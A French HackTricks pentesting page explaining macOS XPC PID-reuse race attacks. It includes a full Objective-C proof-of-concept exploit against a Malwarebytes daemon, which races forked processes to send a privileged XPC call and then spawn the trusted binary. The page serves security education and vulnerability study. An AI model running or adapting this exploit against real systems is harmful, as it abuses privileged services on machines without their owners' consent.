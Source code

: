## Réutilisation de PID macOS

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une **entreprise de cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au** [**repo hacktricks**](https://github.com/carlospolop/hacktricks) **et au** [**repo hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Réutilisation de PID

Lorsqu'un service **XPC macOS** vérifie le processus appelé en fonction du **PID** et non du **jeton d'audit**, il est vulnérable à une attaque de réutilisation de PID. Cette attaque est basée sur une **condition de course** où une **exploitation** va **envoyer des messages à XPC** en **abusant** de la fonctionnalité et juste **après**, exécuter **`posix_spawn(NULL, target_binary, NULL, &attr, target_argv, environ)`** avec le binaire **autorisé**.

Cette fonction fera en sorte que le binaire **autorisé possède le PID** mais le **message XPC malveillant aura été envoyé** juste avant. Ainsi, si le service **XPC utilise le PID** pour **authentifier** l'expéditeur et le vérifie **APRÈS** l'exécution de **`posix_spawn`**, il pensera que cela vient d'un processus **autorisé**.

### Exemple d'exploit

Si vous trouvez la fonction **`shouldAcceptNewConnection`** ou une fonction appelée par celle-ci **appelant** **`processIdentifier`** et ne faisant pas appel à **`auditToken`**. Il est très probable qu'elle vérifie le PID du processus et non le jeton d'audit.\
Comme par exemple dans cette image (prise de la référence) :

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Vérifiez cet exemple d'exploit (encore une fois, pris de la référence) pour voir les 2 parties de l'exploit :

* Une qui **génère plusieurs forks**
* **Chaque fork** enverra la **charge utile** au service XPC tout en exécutant **`posix_spawn`** juste après l'envoi du message.

{% hint style="danger" %}
Pour que l'exploit fonctionne, il est important d'exporter export OBJC_DISABLE_INITIALIZE_FORK_SAFETY=YES ou de le mettre dans l'exploit :
```objectivec
asm(".section __DATA,__objc_fork_ok\n"
"empty:\n"
".no_dead_strip empty\n");
```
{% endhint %}
```objectivec
// from https://wojciechregula.blog/post/learn-xpc-exploitation-part-2-say-no-to-the-pid/

#import <Foundation/Foundation.h>
#include <spawn.h>
#include <sys/stat.h>

#define RACE_COUNT 32
#define MACH_SERVICE @"com.malwarebytes.mbam.rtprotection.daemon"
#define BINARY "/Library/Application Support/Malwarebytes/MBAM/Engine.bundle/Contents/PlugIns/RTProtectionDaemon.app/Contents/MacOS/RTProtectionDaemon"

// allow fork() between exec()
asm(".section __DATA,__objc_fork_ok\n"
"empty:\n"
".no_dead_strip empty\n");

extern char **environ;

// defining necessary protocols
@protocol ProtectionService
- (void)startDatabaseUpdate;
- (void)restoreApplicationLauncherWithCompletion:(void (^)(BOOL))arg1;
- (void)uninstallProduct;
- (void)installProductUpdate;
- (void)startProductUpdateWith:(NSUUID *)arg1 forceInstall:(BOOL)arg2;
- (void)buildPurchaseSiteURLWithCompletion:(void (^)(long long, NSString *))arg1;
- (void)triggerLicenseRelatedChecks;
- (void)buildRenewalLinkWith:(NSUUID *)arg1 completion:(void (^)(long long, NSString *))arg2;
- (void)cancelTrialWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)startTrialWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)unredeemLicenseKeyWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)applyLicenseWith:(NSUUID *)arg1 key:(NSString *)arg2 completion:(void (^)(long long))arg3;
- (void)controlProtectionWithRawFeatures:(long long)arg1 rawOperation:(long long)arg2;
- (void)restartOS;
- (void)resumeScanJob;
- (void)pauseScanJob;
- (void)stopScanJob;
- (void)startScanJob;
- (void)disposeOperationBy:(NSUUID *)arg1;
- (void)subscribeTo:(long long)arg1;
- (void)pingWithTag:(NSUUID *)arg1 completion:(void (^)(NSUUID *, long long))arg2;
@end

void child() {

    // send the XPC messages
    NSXPCInterface *remoteInterface = [NSXPCInterface interfaceWithProtocol:@protocol(ProtectionService)];
    NSXPCConnection *xpcConnection = [[NSXPCConnection alloc] initWithMachServiceName:MACH_SERVICE options:NSXPCConnectionPrivileged];
    xpcConnection.remoteObjectInterface = remoteInterface;

    [xpcConnection resume];
    [xpcConnection.remoteObjectProxy restartOS];

    char target_binary[] = BINARY;
    char *target_argv[] = {target_binary, NULL};
    posix_spawnattr_t attr;
    posix_spawnattr_init(&attr);
    short flags;
    posix_spawnattr_getflags(&attr, &flags);
    flags |= (POSIX_SPAWN_SETEXEC | POSIX_SPAWN_START_SUSPENDED);
    posix_spawnattr_setflags(&attr, flags);
    posix_spawn(NULL, target_binary, NULL, &attr, target_argv, environ);
}

bool create_nstasks() {

    NSString *exec = [[NSBundle mainBundle] executablePath];
    NSTask *processes[RACE_COUNT];

    for (int i = 0; i < RACE_COUNT; i++) {
        processes[i] = [NSTask launchedTaskWithLaunchPath:exec arguments:@[ @"imanstask" ]];
    }

    int i = 0;
    struct timespec ts = {
        .tv_sec = 0,
        .tv_nsec = 500 * 1000000,
    };

    nanosleep(&ts, NULL);
    if (++i > 4) {
        for (int i = 0; i < RACE_COUNT; i++) {
            [processes[i] terminate];
        }
        return false;
    }

    return true;
}

int main(int argc, const char * argv[]) {

    if(argc > 1) {
        // called from the NSTasks
        child();

    } else {
        NSLog(@"Starting the race");
        create_nstasks();
    }

    return 0;
}obj
```
## Références

* [https://wojciechregula.blog/post/learn-xpc-exploitation-part-2-say-no-to-the-pid/](https://wojciechregula.blog/post/learn-xpc-exploitation-part-2-say-no-to-the-pid/)
* [https://saelo.github.io/presentations/warcon18\_dont\_trust\_the\_pid.pdf](https://saelo.github.io/presentations/warcon18\_dont\_trust\_the\_pid.pdf)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une entreprise de **cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au** [**repo hacktricks**](https://github.com/carlospolop/hacktricks) **et au** [**repo hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
